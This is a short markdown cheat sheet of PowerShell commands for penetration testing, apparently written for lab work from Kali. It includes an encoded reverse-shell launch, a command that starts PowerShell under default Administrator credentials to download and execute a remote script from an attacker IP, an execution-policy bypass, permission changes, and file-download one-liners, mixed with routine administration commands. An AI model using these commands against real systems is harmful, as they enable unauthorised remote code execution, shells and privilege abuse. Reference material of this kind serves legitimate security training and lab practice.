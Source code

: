 # PowerShell

# Windows-like PowerShell Base64 Format
In Kali:
```
cat filename.ps1 | iconv -t UTF-16LE | base64 -w 0
```

# Powershell Execute Reverse Shell
```
powershell -enc <base64-payload>
```
# List hidden files
```
gci -force .
```
# Use Default credentials
```
$SecPass = ConvertTo-SecureString '<password>' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $SecPass)
Start-Process -FilePath "powershell" -argumentList "IEX(New-Object Net.webClient).downloadString('http://10.10.14.30/Shellz4all.ps1')" -Credential $cred
```
# Get File Permissions
```
Get-ACL <filename> | Fl *
```
# Change File Permissions (if you are the owner)
```
cacls <filename> /t /e /p <username>:F
```
- `F`: Full Permission


---

```
powershell -ep bypass
```
## Execution Policy
- Get current Execution Policy
```
Get-ExecutionPolicy -Scope CurrentUser
```

- Set Execution Policy
```
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```



## Base64 using PowerShell
```
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("<command>"))
```
- Also, `pwsh` can be used in Linux environment.

## Download
```
Invoke-WebRequest -URI $URL -OutFile $Path
```
```
(New-Object System.Net.WebClient).DownloadFile($URL, $Path)
```
```
Start-BitsTransfer -Source $URL -Destination $Path
```
---
# Print Integrity level of a process
To display the integrity level of a process, we can use tools such as Process Explorer2 or third-party PowerShell modules such as NtObjectManager.3 Let's assume the latter is already installed on the system.

Once we import the module with Import-Module,4 we can use Get-NtTokenIntegrityLevel5 to display the integrity level of the current process by retrieving and reviewing the assigned access token.
```
Import-Module NtObjectManager
Get-NtTokenIntegrityLevel
```
